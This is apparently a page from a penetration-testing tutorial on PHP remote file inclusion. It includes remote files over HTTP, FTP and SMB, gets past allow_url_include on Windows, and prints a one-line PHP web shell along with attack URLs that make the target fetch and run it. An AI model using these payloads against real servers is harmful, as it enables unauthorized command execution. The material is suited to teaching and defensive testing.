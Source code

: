 To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on 
port 8080 on localhost and then pass a URL to it through the language parameter.

`http://example.com/index.php?language=http://localhost:8080/file`

If the server tried including the file at `http://localhost:8080/file` but failed. Looking at the HTTP server, a request was logged.

```
python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/ )
127.0.0.1 - - [03/Jan/2020 07:15:50] code 404, message File not found
127.0.0.1 - - [03/Jan/2020 07:15:50] "GET /file HTTP/1.0" 404 -
```

Let's try including a web shell from our server and executing commands. First, create a file named shell.php with the following contents:

`php code: <?php system($_GET['cmd']); ?>`

`http://example.com/index.php?language=http://localhost:8080/shell.php&cmd-id`

if the file was included, and then we can executed id successfully. In case the server appends the .php extension automatically, we can omit the .php at the end.

Similar to the HTTP protocol, even the FTP protocol can be used to access remote files. Python's pyftpdlib library can be used to test this locally.

```
 python -m pyftpdlib -p 21

[I 2020-01-03 07:36:00] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<

[I 2020-01-03 07:36:00] concurrency model: async
[I 2020-01-03 07:36:00] masquerade (NAT) address: None
[I 2020-01-03 07:36:00] passive ports: None
```
Next, use the `ftp://` scheme to access `shell.php` present in the FTP root.

`http://example.com/index.php?language=ftp://localhost/shell.php&cmd-id`

By default, PHP tries to authenticate as an anonymous user. If the server needs authentication, then the credentials can be specified in the following way:

`http://example.com//index.php?language=ftp://user:pass@localhost/shell.php&cmd=id`

Windows
=======

When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol. This is because Windows treats files
on remote SMB servers as normal files, which can be referenced directly with a UNC path. We can spin up an SMB server using Impacket's smbserver.py, which allows 
anonymous authentication by default.

```
 smbserver.py -smb2support share $(pwd)

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed


```
